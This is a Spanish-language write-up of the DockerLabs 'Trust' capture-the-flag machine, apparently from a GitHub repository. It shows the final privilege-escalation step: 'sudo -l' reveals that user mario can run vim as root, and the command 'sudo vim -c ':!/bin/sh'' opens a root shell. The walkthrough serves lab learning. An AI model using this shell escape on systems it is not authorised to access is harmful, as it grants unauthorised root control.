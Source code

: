 ```ruby
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21
mario@99ebdb36daec:~$ whoami
mario
```
Una vez dentro de la máquina víctima, vamos a intentar listar todos los privilegios de sudo del usuario actual. Es decir, mostrar qué comandos puede ejecutar con sudo y cómo. 
```ruby
mario@99ebdb36daec:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 99ebdb36daec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 99ebdb36daec:
    (ALL) /usr/bin/vim
```
Sabiendo que podemos ejecutar Vim[^1] con permisos de administrador, podemos buscar en [GTFOBins](https://gtfobins.github.io/gtfobins/vim/) alguna forma de establecer una shell remota, puesto que esta se ejecutará con los permisos del usuario que la haya lanzado. 
![GTFOBins vim](https://github.com/JavieRR13/WriteUps/blob/6be73eb8c1de22d9b38e2720c90c945007edde78/DockerLabs/Muy%20f%C3%A1cil/Trust/Im%C3%A1genes/Trust_GTFOBinsvim.png)
```ruby
mario@99ebdb36daec:~$ sudo vim -c ':!/bin/sh'

# whoami
root
# 
```
🥳CONSEGUIDO, SOMOS ROOT🥳
[^1]: Vim es un editor de texto para sistemas Unix/Linux que, al poder ejecutarse con sudo, se convierte en una vía de escalada de privilegios porque permite lanzar comandos de sistema desde dentro del editor (por ejemplo con :!bash), lo que posibilita abrir una shell con permisos de root.
